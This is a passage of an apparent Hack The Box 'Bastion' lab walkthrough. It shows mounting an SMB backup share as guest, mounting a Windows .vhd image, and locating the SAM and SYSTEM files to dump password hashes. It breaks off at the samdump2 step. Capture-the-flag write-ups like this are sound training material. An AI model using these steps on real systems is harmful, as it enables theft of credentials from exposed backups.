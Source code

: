 ```
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .                                  Dn        0  Fri Feb 22 19:45:32 2019
  ..                                 Dn        0  Fri Feb 22 19:45:32 2019
  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 19:44:03 2019
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 19:45:32 2019
  <snip>
```

## Foothold

### Crack Windows Credential

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastion)

Because file `.vhd` is too large, download this file is not a good idea, I decided to mount this file as an image.
Fisrt, mount folder Backups to `/mnt/Backups` folder in local machine.

```
┌──(Hades㉿10.10.14.5)-[0.6:13.2]~/walkthrough/hackthebox/bastion
└─$ sudo mount -t cifs //10.10.10.134/Backups /mnt -o user=guest,password=
```

Using `guestmount` to mount file `.vhd`. 

```
┌──(Hades㉿10.10.14.5)-[0.6:13.2]~/walkthrough/hackthebox
└─$ sudo guestmount -a /mnt/Backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/vhd 
```

Go to folder `/mnt/vhd`, It showed folder of Windows machine.

```
┌──(Hades㉿10.10.14.5)-[0.8:28.2]/mnt
└─$ sudo ls /mnt/vhd
'$Recycle.Bin'   config.sys                pagefile.sys   ProgramData      Recovery                     Users
 autoexec.bat   'Documents and Settings'   PerfLogs      'Program Files'  'System Volume Information'   Windows
```

I go to folder contain file `SAM` and file `SYSTEM` at `/Windows/System32/config` to copy it and dump credentials.

```
┌──(root💀kali)-[/mnt]
└─# cd vhd/Windows/System32/config

┌──(root💀kali)-[/mnt/vhd/Windows/System32/config]
└─# ls -l SAM SYSTEM
-rwxrwxrwx 1 root root  262144 Feb 22  2019 SAM
-rwxrwxrwx 1 root root 9699328 Feb 22  2019 SYSTEM
```

Using `samdump2` dump credentials of user in the system and save the hash to file.
